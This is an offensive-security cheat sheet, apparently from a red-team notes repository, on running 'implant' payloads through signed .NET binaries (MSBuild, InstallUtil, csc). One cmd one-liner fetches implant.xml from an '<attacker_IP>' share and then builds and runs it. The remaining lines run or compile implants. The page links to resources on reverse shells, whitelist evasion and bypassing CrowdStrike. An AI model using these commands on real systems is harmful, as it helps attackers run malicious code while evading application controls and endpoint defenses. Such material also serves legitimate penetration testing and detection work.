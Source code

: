 # DotNET Execution

## MSBuild

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe implant.xml
```

```
C:\> cmd /V /c "set COMPILER="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !COMPILER! /noautoresponse /preprocess \\<attacker_IP>\<share_name>\implant.xml > implant.xml & !COMPILER! implant.xml"
```

## InstallUtil

https://gist.github.com/Meatballs1/36fea5961ba7340821b1

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\implant.exe
```

### CSC

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe C:\path\to\implant.cs
```

---
## References

### LOLBAS

- [LOLBAS: MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

- [LOLBAS: InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)

- [LOLBAS: CSC](https://lolbas-project.github.io/lolbas/Binaries/Csc/)

- [LOLBAS: Ilasm](https://lolbas-project.github.io/lolbas/Binaries/Ilasm/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/windows)

### Red Team Notes

- [Red Team Notes: InstallUtil](https://www.ired.team/offensive-security/code-execution/t1118-installutil)

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### Github

- [khr0x40sh: WhiteListEvasion](https://github.com/khr0x40sh/WhiteListEvasion)

### Secarma

- [Secarma: Three ways of using MSBuild to beat CrowdStrike](https://secarma.com/three-ways-of-using-msbuild-to-beat-crowdstrike/)

### arno0x0x

- [arno0x0x: Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)